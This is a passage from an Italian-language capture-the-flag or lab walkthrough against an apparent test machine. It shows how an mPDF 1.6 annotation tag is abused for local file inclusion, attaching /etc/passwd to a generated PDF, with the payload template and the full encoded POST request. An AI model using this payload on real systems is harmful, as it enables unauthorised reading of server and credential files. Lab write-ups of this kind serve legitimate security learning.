 Quindi procediamo a decodificarlo DA BURP: *Text -> Url decode -> Url decode -> Base64 decode*

Il risultato è un payload HTML che rappresenta il PDF da renderizzare
```
<html><head><style>table {
	border-collapse: separate;
	border: 0.0mm solid #000000;
	padding: 3px;
	margin: 0px 20px 0px 20px;
	empty-cells: hide;
	background-color:#FFFFFF;
	}
	td {
	border-top: 1px solid #000000;
	padding: 0px;
	background-color:#FFFFFF;
	}
</style></head><body><h2>Aurri's Tech World</h2><h3>Order ID: 32220372736</h3><table class="table"><tr><th>#</th><th>Item Name</th><th>Price</th><th>&nbsp;</th></tr><tr><td>2</td><td><img src='prod-img/laptop.jpg'/></td><td><h5>Laptop</h5></td><td><h5>800&euro;</h5></td></tr><tr><td>&nbsp;</td><td>&nbsp;</td><td>Total</td><td>800</td></tr></table></body></html>
```
Cercando su internet specifiche vulnerabilità per la versione 1.6 di mPDF si trovano due link che sembrano descrivere esattamente il nostro caso
* [1] [https://github.com/mpdf/mpdf/issues/356](https://github.com/mpdf/mpdf/issues/356)
* [2] [https://medium.com/@jonathanbouman/local-file-inclusion-at-ikea-com-e695ed64d82f](https://medium.com/@jonathanbouman/local-file-inclusion-at-ikea-com-e695ed64d82f)

Proviamo quindi a controllare il payload (come descritto in [1] e [2]) forzando la *generate.php* a produrre un PDF con allegato un file local, praticamente una LFI

Usiamo il seguente template
```
<html><head></head><body><annotation file="/etc/passwd" content="/etc/passwd"  icon="Graph" title="Attached File: /etc/passwd" pos-x="195" /></body></html>
```
Ricordiamoci di encodare ripetendo (al contrario) i passi della decodifica: *Text -> Base64 encode -> Url encode -> Url encode* ed utilizzando BURP modifichiamo la richiesta POST nel seguente modo
```
POST /generate.php HTTP/1.1
Host: 172.16.150.137
Content-Length: 228
Cache-Control: max-age=0
Authorization: Basic ZGFycmVuOkJ1YzR0MW4xQzRjMTAzUDNwMw==
Origin: http://172.16.150.137
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/76.0.3809.100 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Referer: http://172.16.150.137/collect.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,fr;q=0.8
Cookie: PHPSESSID=rniqivaf781msk2qc3f02b87nv
Connection: close

pdf=PGh0bWw%252bPGhlYWQ%252bPC9oZWFkPjxib2R5Pjxhbm5vdGF0aW9uIGZpbGU9Ii9ldGMvcGFzc3dkIiBjb250ZW50PSIvZXRjL3Bhc3N3ZCIgIGljb249IkdyYXBoIiB0aXRsZT0iQXR0YWNoZWQgRmlsZTogL2V0Yy9wYXNzd2QiIHBvcy14PSIxOTUiIC8%252bPC9ib2R5PjwvaHRtbD4%253d
```
Scaricando il PDF prodotto dalla richiesta modificata ed aprendolo possiamo notare che ha il file passwd allegato